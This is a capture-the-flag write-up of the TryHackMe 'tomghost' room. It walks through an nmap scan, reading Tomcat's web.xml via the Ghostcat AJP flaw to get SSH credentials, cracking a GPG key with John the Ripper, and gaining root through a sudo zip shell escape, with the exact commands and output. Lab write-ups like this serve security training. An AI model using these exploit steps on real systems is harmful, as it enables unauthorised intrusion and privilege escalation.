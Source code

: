 # tomghost

> RedAiden

## Enumeration

### Nmap

Start a basic Nmap scan.

`nmap -sC -sV 10.10.`

```
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
MAC Address: 02:7F:0A:D4:FF:79 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Scanning Port 8080

If we enter to `10.10.x.x:8080` we can find the page to Apache Tomcat/9.0.30. Given the name of the room, we can assume we must take advantage of the [__GHOST CAT__](https://medium.com/@prem2/ghostcat-vulnerability-cve-2020-1938-ajp-lfi-apache-tomcat-server-vulnerability-9f57330e3eb1) vulnerability.

## Exploitation

1. Download the python script from the [GitHub Repo](https://github.com/00theway/Ghostcat-CNVD-2020-10487)
2. Run the script `python3 ajpShooter.py http://10.10.207.197:8080 8009 /WEB-INF/web.xml read`
3. From the ouutput we can get the following credentials: `skyfuck:8730*************`
```

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730*********
  </description>

</web-app>
```
4. SSH into the machine with the newly found credentials `ssh skyfuck@10.10.x.x -p 22`
5. We are now the user skyfuck

## Privelege Escalation

1. If we do `ls` we find two new files: `credential.pgp` and `tryhackme.asc`
2. From your machine, download the files `scp skyfuck@10.10.x.x:/home/skyfuck/* .`
3. Convert the `tryhackme.asc` file into a hash that __John The Ripper__ can read: `sudo gpg2john tryhackme.asc > hash`
4. Give the new hash to john the ripper: `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash`
```
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alex*****        (tryhackme)
1g 0:00:00:00 DONE (2021-01-05 06:27) 5.263g/s 5642p/s 5642c/s 5642C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
5. Import the Armored ASCII file `gpg --import tryhackme.asc`
   - Use the passphrase we found: `alex*****`
6. Decrypt the Pretty Good Privacy file `gpg --decrypt credential.pgp`

```
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```
7. Log in to ssh with the new user and password
8. Once inside the new shell, we can find the user flag.
9. Do `sudo -l` to check our permissions
10. Look like we can run `/usr/bin/zip` as sudo. Time to check for a vulnerability in gtfobins
11. Once we find the exploit, run the commands:
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```
12. You should now be root, check with `whoami`
13. The flag is located in `/root`